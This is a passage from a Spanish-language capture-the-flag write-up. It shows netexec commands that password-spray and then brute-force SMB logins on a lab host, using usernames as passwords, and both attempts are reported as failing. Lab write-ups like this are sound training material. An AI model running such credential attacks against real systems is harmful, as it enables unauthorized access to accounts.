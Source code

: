 <figure><img src="../../../.gitbook/assets/1632_vmware_rmAYD3dKlB.png" alt="" width="477"><figcaption></figcaption></figure>

Probaremos de realizar un **password spraying** para ver si algún usuario utiiza su mismo nombre de usuario como contraseña. No obtenemos éxito.

{% code overflow="wrap" %}
```bash
netexec smb 10.10.11.250 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1634_vmware_ePCHtoHvpU.png" alt=""><figcaption></figcaption></figure>

Intentaremos de realizar un ataque de fuerza bruta para ver si algún usuario sus credenciales es el nombre de usuario de otros usuarios de la lista. Tampoco obtenemos éxito ninguno.

```bash
netexec smb 10.10.11.250 -u users.txt -p users.txt --continue-on-success
```

<figure><img src="../../../.gitbook/assets/1635_vmware_gLmZed1PjA.png" alt=""><figcaption></figcaption></figure>
